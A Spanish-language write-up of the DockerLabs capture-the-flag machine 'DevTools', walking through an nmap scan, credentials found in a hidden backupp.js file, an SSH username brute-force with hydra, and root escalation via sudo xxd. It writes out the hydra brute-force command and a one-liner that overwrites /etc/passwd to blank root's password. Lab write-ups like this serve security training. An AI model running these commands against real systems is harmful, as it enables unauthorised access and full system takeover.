 Máquina "DevTools" de [DockerLabs](https://dockerlabs.es)

Autor: [El Pingüino de Mario](https://www.youtube.com/channel/UCGLfzfKRUsV6BzkrF1kJGsg)

Dificultad: Medio



![DevTools](/maquina-devtools/img/dockerlabs.png)



# Reconocimiento

Empezamos con un escaneo de `nmap`:

```css
nmap -sSVC -p- -Pn -n --open --min-rate 5000 -vvv 172.17.0.2 -oN escaneo.txt
```

```ruby
# Nmap 7.95 scan initiated Sun Dec 15 10:59:27 2024 as: nmap -sSVC -p- -Pn -n --open --min-rate 5000 -vvv -oN escaneo.txt 172.17.0.2
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.000012s latency).
Scanned at 2024-12-15 10:59:27 -03 for 8s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 4d:ea:92:ba:53:e3:b8:dc:71:95:50:19:87:6b:b2:6d (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBHySp29oLAUPUU27byLQHAEweVlLXLNNoJgJaI/3JeRE+R+8K0xWa4pAawQpPvD2Xrpuf7MovEvk2DSIgp85zoY=
|   256 fa:77:68:76:dc:8e:b1:cd:56:5f:c1:79:89:ad:fa:78 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAINOqd4h1jKYg1fOng1zCM8B/Z0aA4iM5Q7lEm6SW+n7p
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.62 ((Debian))
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET POST
|_http-title: \xC2\xBFQu\xC3\xA9 son las DevTools del Navegador?
|_http-server-header: Apache/2.4.62 (Debian)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Dec 15 10:59:36 2024 -- 1 IP address (1 host up) scanned in 8.57 seconds
```

Solo tenemos dos puertos abiertos:

•`Puerto 22: OpenSSH 9.2p1`

•`Puerto 80: Apache httpd 2.4.62`

y nos enfrentamos a un `Debian`.

Si vamos a la web, nos saltará un cuadro que nos pide iniciar sesión, pero nosotros no tenemos la contraseña. Luego de probar un rato, decido leer el código fuente de la página (`curl 172.17.0.2`) y veo que dice lo siguiente en el principio:

```html
<script src="backupp.js" defer></script>
```

Viendo esto, puede ser que el archivo se intente ocultar ya que su nombre es "backup" pero con dos "p", por lo que si lo revisamos, veremos que nos da las credenciales:

![Credenciales](/maquina-devtools/img/credenciales.png)

si probamos las credenciales en la web nos funcionan correctamente, pero no para entrar por ssh, pero si revisamos el comentario:

```css
// Antigua contraseña beluleroh
```

(Supongo que mario quiso poner "baluleroh" (su perro) pero ahi en la maquina puso "beluleroh")

Por lo que podriamos intentar un ataque de `hydra` pero con usuarios.

# Intrusión

Continuamos haciendo el ataque:

```
hydra -L /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -p baluleroh -V ssh://172.17.0.2 -t 64
```



![Carlos-pass](/maquina-devtools/img/hydra.png)

Ya tenemos credenciales, por lo que continuaremos conectándonos por ssh.

# Escalada de privilegios

### Carlos

Siendo el usuario carlos, ejecuto un `sudo -l` y veo que puedo ejecutar `ping` como root y `xxd`, por lo que luego de buscar, veo que puedo editar el `/etc/passwd` de la siguiente manera:

```css
echo root::0:0:root:/root:/bin/bash | sudo xxd | sudo xxd -r - "/etc/passwd"
```

Por lo que una vez ejecutado eso, ejecutamos `su` y escalamos a root.

## Root

![Root](/maquina-devtools/img/root.png)

Gracias por leer :)